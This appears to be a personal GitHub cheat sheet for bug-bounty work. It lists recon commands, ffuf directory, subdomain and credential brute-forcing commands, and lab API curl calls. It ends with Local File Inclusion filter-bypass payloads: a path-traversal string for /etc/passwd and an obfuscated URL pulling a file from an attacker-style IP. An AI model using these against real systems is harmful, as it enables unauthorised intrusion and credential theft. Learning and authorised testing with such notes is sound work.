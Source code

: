 # Bug-Hunting

# recon & footprinting
- https://buitlwith.com
- Wappalyzer plugin
- https://securityheaders.com
-     curl -I www.<raman>.com
- if you get hit with a redirection ex. Cloudflare
-     curl -I -L www.<raman>.com
you also can use nmap to gather information -A

# Directory Enumeration and Brute Forcing
Basic usage
-     ffuf -w wordlist.txt -u http://example.com/FUZZ
Add custom header
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -H "Authorization: Bearer <token>"
Use POST method
-     ffuf -w wordlist.txt -u http://example.com/api -X POST -d "param1=value1&param2=value2"
Finding subdomain
-     ffuf -u https://FUZZ.example.com -w wordlist.txt -mc 200,301,302,403
Follow redirects
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -r
Use a proxy
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -p http://127.0.0.1:8080
Exclude directories
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -exclude-dirs "admin,backup,test"
Use custom match string
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -c "Password incorrect"
Number of threads
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -t 40
filter HTTP status
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -fc 404,401
file extensions
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -e .php
recursion
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -recursion

# Authentication & Authorization Attacks
https://appsecexplained.gitbook.io/appsecexplained/
brute force password
-     ffuf -reqeust raman.txt -request-proto http -w wordlist.txt
Clusterbomb attack
- make sure to mention the following in the request file (in burp) "username=FUZZUSER&password=FUZZPASS"
-     ffuf -request raman.txt -request-proto http -mode clusterbomb -w wordlist.txt:FUZZUSER -w pass.txt:FUZZPASS -fs 3256,3376
- API Index
- POST /login.php
-     curl -X POST -H "Content-Type: application/json" -d '{username: "admin", password: "password123"}' http://localhost/labs/api/login.php
- Get /account.php
-     curl -X GET "http://localhost/labs/api/account.php?token=JWT"
- PUT /account.php
-     curl -X PUT -H "Content-Type: application/json" -d '{token: "JWT", username:"username", bio: "New bio information."}' http://localhost/labs/api/account.php

# Local File Inclusion
using ffuf
-     ffuf -request api.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
some filters bypass
-     ..././..././..././..././..././etc/passwd
-     hthttptp://10.10.16.2:8000/file.txt

